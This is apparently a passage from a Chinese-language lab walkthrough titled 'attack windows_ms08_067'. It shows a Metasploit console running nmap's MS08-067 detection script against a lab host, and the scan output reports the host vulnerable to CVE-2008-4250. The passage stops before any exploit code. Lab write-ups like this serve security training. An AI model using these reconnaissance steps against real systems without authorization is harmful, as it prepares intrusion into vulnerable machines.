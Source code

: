 
## Attack

### attack windows_ms08_067

**0x01 使用nmap的扫描脚本检查漏洞**

ms08_067是一个对操作系统版本以来成都非常高地漏洞，所以为了确保目标版本触发正确地溢出代码，使用nmap收集信息。
```javascript
msf exploit(ms08_067_netapi) > nmap -sT -A --script=smb-vuln-ms08-067.nse -P0 10.10.10.130
[*] exec: nmap -sT -A --script=smb-vuln-ms08-067.nse -P0 10.10.10.130


Starting Nmap 7.01 ( https://nmap.org ) at 2016-02-25 03:38 EST
Nmap scan report for service.dvssc.com (10.10.10.130)
Host is up (0.00091s latency).
Not shown: 985 closed ports
PORT     STATE SERVICE         VERSION
21/tcp   open  ftp             Microsoft ftpd
80/tcp   open  http            Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
135/tcp  open  msrpc           Microsoft Windows RPC
139/tcp  open  netbios-ssn     Microsoft Windows 98 netbios-ssn
445/tcp  open  microsoft-ds    Microsoft Windows 2003 or 2008 microsoft-ds
777/tcp  open  multiling-http?
1025/tcp open  msrpc           Microsoft Windows RPC
1026/tcp open  msrpc           Microsoft Windows RPC
1027/tcp open  msrpc           Microsoft Windows RPC
1031/tcp open  msrpc           Microsoft Windows RPC
1521/tcp open  oracle-tns      Oracle TNS Listener 10.2.0.1.0 (for 32-bit Windows)
6002/tcp open  http            SafeNet Sentinel Protection Server httpd 7.3
|_http-server-header: SentinelProtectionServer/7.3
7001/tcp open  afs3-callback?
7002/tcp open  http            SafeNet Sentinel Keys License Monitor httpd 1.0 (Java Console)
|_http-server-header: SentinelKeysServer/1.0
8099/tcp open  http            Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port777-TCP:V=7.01%I=7%D=2/25%Time=58B142B7%P=x86_64-pc-linux-gnu%r(Ker
SF:beros,5,"\x01\0\t\xe0\x06")%r(SMBProgNeg,5,"\x01\0\t\xe0\x06")%r(Termin
SF:alServer,A,"\x01\0\t\xe0\x06\x01\0\t\xe0\x06")%r(WMSRequest,5,"\x01\0\t
SF:\xe0\x06");
MAC Address: 00:0C:29:9D:6E:8D (VMware)
Device type: general purpose
Running: Microsoft Windows XP|2003
OS CPE: cpe:/o:microsoft:windows_xp::sp2:professional cpe:/o:microsoft:windows_server_2003
OS details: Microsoft Windows XP Professional SP2 or Windows Server 2003
Network Distance: 1 hop
Service Info: OSs: Windows, Windows 98; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_98, cpe:/o:microsoft:windows_server_2003

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, 
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary 
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
```